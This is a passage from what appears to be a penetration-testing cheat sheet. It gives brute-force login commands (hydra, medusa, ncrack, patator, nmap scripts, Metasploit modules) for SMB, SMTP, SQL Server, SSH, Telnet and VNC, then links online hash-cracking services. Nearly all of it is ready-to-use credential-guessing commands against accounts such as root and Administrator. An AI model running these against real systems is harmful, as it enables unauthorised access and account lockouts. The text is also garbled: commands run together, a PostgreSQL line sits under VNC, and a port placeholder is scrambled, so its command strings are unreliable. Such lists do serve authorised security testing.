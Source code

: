 ### SMB <a href="#smb" id="smb"></a>

```
nmap --script smb-brute -p 445 <IP>hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
```

### SMTP <a href="#smtp" id="smtp"></a>

```
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -Vhydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL
```

### SQL Server <a href="#sql-server" id="sql-server"></a>

```
#Use the NetBIOS name of the machine as domainhydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssqlmedusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssqlnmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be carefull with the number of password in the list, this could block accountsmsf> use auxiliary/scanner/mssql/mssql_login #Be carefull, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT
```

### SSH <a href="#ssh" id="ssh"></a>

```
hydra -l root -P passwords.txt [-t 32] <IP> sshncrack -p 22 --user root -P passwords.txt <IP> [-T 5]medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
```

### Telnet <a href="#telnet" id="telnet"></a>

```
hydra -l root -P passwords.txt [-t 32] <IP> telnetncrack -p 23 --user root -P passwords.txt <IP> [-T 5]medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet
```

### VNC <a href="#vnc" id="vnc"></a>

```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vncmedusa -h <IP> –u root -P /root/Desktop/pass.txt –M vncncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>Tpatator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_loginnmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```

## Local <a href="#local" id="local"></a>

### Online cracking databases <a href="#online-cracking-databases" id="online-cracking-databases"></a>

*
  * ​[https://www.onlinehashcrack.com/](https://www.onlinehashcrack.com) (Hashes, WPA2 captures, and archives MSOffice, ZIP, PDF...)
*
  *
    * ​[https://gpuhash.me/](https://gpuhash.me) (Hashes and file hashes)
*
  *
    * ​[https://hashkiller.co.uk/Cracker](https://hashkiller.co.uk/Cracker) (MD5, NTLM, SHA1, MySQL5, SHA256, SHA512)
*
